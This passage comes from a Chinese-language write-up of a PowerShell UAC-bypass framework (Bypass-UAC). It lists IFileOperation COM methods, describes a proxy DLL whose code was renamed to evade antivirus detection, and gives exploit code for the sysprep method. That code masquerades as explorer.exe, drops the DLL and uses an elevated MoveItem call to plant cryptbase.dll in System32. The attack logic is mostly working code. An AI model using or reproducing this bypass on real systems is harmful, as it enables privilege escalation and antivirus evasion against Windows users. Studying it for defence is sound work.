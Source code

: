 ```
PS C:Usersb33f&gt; $IFileOperation |Get-Member
 
    TypeName: FileOperation.FileOperation
 
 Name              MemberType Definition
 ----              ---------- ----------
 CopyItem          Method     void CopyItem(string source, string destination, string newName)
 DeleteItem        Method     void DeleteItem(string source)
 Dispose           Method     void Dispose(), void IDisposable.Dispose()
 Equals            Method     bool Equals(System.Object obj)
 GetHashCode       Method     int GetHashCode()
 GetType           Method     type GetType()
 MoveItem          Method     void MoveItem(string source, string destination, string newName)
 NewItem           Method     void NewItem(string folderName, string name, System.IO.FileAttributes attrs)
 PerformOperations Method     void PerformOperations()
 RenameItem        Method     void RenameItem(string source, string newName)
 ToString          Method     string ToString()
 
Emit-Yamabiko
```

该组件可以向磁盘中写入一个x32或x64位的代理DLL，这个DLL是基于UACME项目（[@hfiref0x](https://twitter.com/hfiref0x)）中的[fubuki](https://github.com/hfiref0x/UACME/tree/master/Source/Fubuki)来实现的。简而言之，我去掉了其中的一些冗余功能，并且对部分代码文件和变量进行了重命名以躲避反病毒产品的检测。如果用户感兴趣的话，可以访问[Yamabiko文件夹](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Bypass-UAC/Yamabiko)获取关于该组件的详细信息。

**<br>**

**贡献代码**

目前，Bypass-UAC框架中主要提供了四种绕过方法。之后我会逐步添加新的UAC绕过方法，但是如果有能力的用户可以给我提供帮助的话，那就再好不过了。实际上，添加新方法的步骤是十分简单的，下面给出了一段演示代码，仅供各位参考。当然了，各位也可以直接使用[EXPORTSTOC++](http://sourcesecure.net/tools/exportstoc/)工具，这样会方便很多。



```
'UacMethodSysprep'
`{`
    # Original Leo Davidson sysprep method
    # Works on everything pre 8.1
    if ($OSMajorMinor -ge 6.3) `{`
        echo "[!] Your OS does not support this method!`n"
        Return
    `}`
 
    # Impersonate explorer.exe
    echo "`n[!] Impersonating explorer.exe!"
    Masquerade-PEB -BinPath "C:Windowsexplorer.exe"
 
    if ($DllPath) `{`
        echo "[&gt;] Using custom proxy dll.."
        echo "[+] Dll path: $DllPath"
    `}` else `{`
        # Write Yamabiko.dll to disk
        echo "[&gt;] Dropping proxy dll.."
        Emit-Yamabiko
    `}`
 
    # Expose IFileOperation COM object
    Invoke-IFileOperation
 
    # Exploit logic
    echo "[&gt;] Performing elevated IFileOperation::MoveItem operation.."
    $IFileOperation.MoveItem($DllPath, $($env:SystemRoot + 'System32sysprep'), "cryptbase.dll")
    $IFileOperation.PerformOperations()
```